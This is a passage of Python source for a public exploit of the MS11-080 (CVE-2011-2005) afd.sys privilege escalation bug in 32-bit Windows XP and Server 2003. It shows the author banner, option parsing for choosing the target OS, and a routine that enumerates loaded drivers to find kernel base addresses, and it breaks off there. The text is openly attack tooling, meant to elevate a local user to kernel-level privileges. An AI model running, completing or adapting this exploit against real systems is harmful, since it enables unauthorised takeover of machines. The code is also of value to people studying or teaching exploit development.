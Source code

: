 EXP
---

    ################################################################################
    ######### MS11-080 - CVE-2011-2005 Afd.sys Privilege Escalation Exploit ########
    #########         Author: ryujin@offsec.com - Matteo Memelli            ########
    #########                      Spaghetti & Pwnsauce                     ########
    #########              yuck! 0xbaadf00d Elwood@mac&cheese.com           ########
    #########                                                               ########
    #########      Thx to dookie(lifesaver)2000ca, dijital1 and ronin       ########
    #########                        for helping out!                       ########
    #########                                                               ########
    #########                   To my Master Shifu muts:                    ########
    #########           "So that's it, I just need inner peace?" ;)         ########
    #########                                                               ########
    #########        Exploit tested on the following 32bits systems:        ########
    #########       Win XPSP3 Eng, Win 2K3SP2 Standard/Enterprise Eng       ########
    ################################################################################

    from ctypes import (windll, CDLL, Structure, byref, sizeof, POINTER,
                        c_char, c_short, c_ushort, c_int, c_uint, c_ulong,
                        c_void_p, c_long, c_char_p)
    from ctypes.wintypes import HANDLE, DWORD
    import socket, time, os, struct, sys
    from optparse import OptionParser

    usage =  "%prog -O TARGET_OS"
    parser = OptionParser(usage=usage)
    parser.add_option("-O", "--target-os", type="string",
                      action="store", dest="target_os",
                      help="Target OS. Accepted values: XP, 2K3")
    (options, args) = parser.parse_args()
    OS = options.target_os
    if not OS or OS.upper() not in ['XP','2K3']:
       parser.print_help()
       sys.exit()
    OS = OS.upper()

    kernel32 = windll.kernel32
    ntdll    = windll.ntdll
    Psapi    = windll.Psapi

    def findSysBase(drvname=None):
        ARRAY_SIZE            = 1024
        myarray               = c_ulong * ARRAY_SIZE
        lpImageBase           = myarray()
        cb                    = c_int(1024)
        lpcbNeeded            = c_long()
        drivername_size       = c_long()
        drivername_size.value = 48
        Psapi.EnumDeviceDrivers(byref(lpImageBase), cb, byref(lpcbNeeded))
        for baseaddy in lpImageBase:
            drivername = c_char_p("\x00"*drivername_size.value)
            if baseaddy:
                Psapi.GetDeviceDriverBaseNameA(baseaddy, drivername,
                                drivername_size.value)
                if drvname:
                    if drivername.value.lower() == drvname:
                        print "[+] Retrieving %s info..." % drvname
                        print "[+] %s base address: %s" % (drvname, hex(baseaddy))
                        return baseaddy
                else:
                    if drivername.value.lower().find("krnl") !=-1:
                        print "[+] Retrieving Kernel info..."
                        print "[+] Kernel version:", drivername.value
                        print "[+] Kernel base address: %s" % hex(baseaddy)